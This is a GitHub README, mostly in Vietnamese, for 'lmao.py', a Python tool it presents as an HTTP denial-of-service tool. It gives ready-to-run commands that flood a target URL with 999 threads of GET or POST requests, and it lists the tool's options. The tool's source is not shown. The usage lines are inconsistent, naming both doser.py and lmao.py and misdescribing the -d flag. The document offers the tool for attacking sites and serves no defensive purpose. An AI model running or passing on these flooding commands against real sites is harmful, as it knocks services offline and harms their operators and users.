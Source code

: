 # lmao.py
Công cụ DoS cho các yêu cầu HTTP (lấy cảm hứng từ Kaisa nhưng có nhiều chức năng hơn) được viết bằng Python:
![](lmao.png)

# Ví Dụ
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Cách sử dụng
``` Nếu bạn chọn <g> thì sẽ là : python lmao.py -t 999 -g 'URL'```

```Nếu bạn chọn <p> thì sẽ là : python lmao.py -t 999 -p 'URL'```

```Nếu bạn chọn <d> thì sẽ là : python lmao.py -t 999 -d 'URL' ```


Các tùy chọn :

  -h, --help  show this help message and exit
  
  -g       -- Specify GET request. Usage: -g '< url >'
  
  -p      --  Specify POST request. Usage: -p '< url >'
  
  -d      --  Specify data payload for POST request
  
  -ah     -- Specify addtional header
  
  -t      --  Specify number of threads to be used
  
 
  Nếu không chạy được file gõ :
   ```chmod +x lmao.py```
  

# BY:
Kai'Sa
